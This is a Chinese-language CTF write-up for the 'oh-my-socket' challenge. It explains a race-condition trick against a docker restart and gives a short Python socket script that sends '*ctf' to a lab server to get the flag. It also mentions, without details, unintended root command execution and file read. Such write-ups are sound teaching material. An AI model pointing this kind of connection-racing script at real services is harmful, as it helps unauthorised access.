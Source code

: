 ## oh-my-socket

不知道是不是非预期，webserver有root权限任意命令执行，client有任意文件读，看了一下没啥用

给了源码

`server\server\oh-some-funny-code`里是flag

`server\server\server.py`大致功能为：

- 接受一个TCP连接，多了就`time.sleep(120)`然后close
- 如果接收到`*ctf`就返回`oh-some-funny-code`的内容
- 否则返回当前日期

但是`client\client\client.py`也会持续连接server，所以要利用docker重启client和server的时间差去send`*ctf`

本地尝试：

![](..\images\starctf_xmaq-02.png)

![](..\images\starctf_xmaq-03.png)

远程5个端口一直都有个`solve.py`或者其他脚本在循环上传连接server，做出来的选手在搅屎增大了每两分钟一次机会的利用难度

运气好手动试了几下就出了：

```python
#!/usr/bin/python*
from socket import *
HOST = '172.21.0.2'
PORT = 21587
BUFSIZ = 1024
ADDR = (HOST, PORT)
tcpCliSock = socket(AF_INET, SOCK_STREAM)
tcpCliSock.connect(ADDR)
try:
  data = b'*ctf'
  tcpCliSock.send(data)
  data = tcpCliSock.recv(BUFSIZ)
  print(data)
except Exception as e:
  tcpCliSock.close()
  print("ERROR", e)
```